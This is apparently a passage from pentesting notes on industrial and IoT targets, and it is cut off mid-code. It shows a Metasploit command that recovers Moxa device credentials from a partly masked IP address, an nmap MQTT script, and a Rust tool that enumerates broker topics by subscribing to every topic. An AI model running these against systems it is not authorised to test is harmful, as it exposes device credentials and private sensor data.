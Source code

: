 Metasploit:

```console
use auxiliary/admin/scada/moxa_credentials_recovery
set FUNCTION CREDS
set rport 4800
set rhosts 212.x.x.14
run
```

## MQTT Enumeration

MQTT is a lightweight messaging protocol often used in IoT (Internet of Things) applications.

- 1883: Default port for MQTT.
- 8883: Default port for MQTT over TLS/SSL.

```sh
nmap -p 1883 --script mqtt-info <target>
```

### Topic Enumeration

The following Rust application enumerates the topics of an MQTT target:

Usage:

```sh
./mqtt-topic-enumerator test.mosquitto.org

Topic: /PostGeneratorSensorValues/8e7acc5a-6d51-49ea-b289-d32c0a19eeb9/02df6380-958b-494d-a164-dc81038aade9
Topic: /SETE_TECNOLOGIA/relay52805/out/sw_version
Topic: /Sentinel/relay49847/out/hw_version
Topic: /Sentinel/relay49847/out/i1Topic: /ac/is_valid
Topic: /ac/power
Topic: /clientnotification/bridge1_status
Topic: /connection/statu0
```

Program:

```rust
use rumqttc::{Client, Event, MqttOptions, Packet, QoS};
use std::collections::HashSet;
use std::env;
use std::time::Duration;

fn main() {
    let args: Vec<String> = env::args().collect();
    let host = args
        .get(1)
        .map(String::as_str)
        .unwrap_or("test.mosquitto.org");
    let port: u16 = args.get(2).and_then(|p| p.parse().ok()).unwrap_or(1883);

    let mut mqttoptions = MqttOptions::new("rumqtt-enumerator", host, port);
    mqttoptions.set_keep_alive(Duration::from_secs(5));
    let (client, mut connection) = Client::new(mqttoptions, 10);

    client.subscribe("#", QoS::AtMostOnce).unwrap();

    let mut seen: HashSet<String> = HashSet::new();
    println!("Listening… press Ctrl-C to stop");

    for event in connection.iter() {
        match event {
            Ok(Event::Incoming(Packet::Publish(p))) => {
```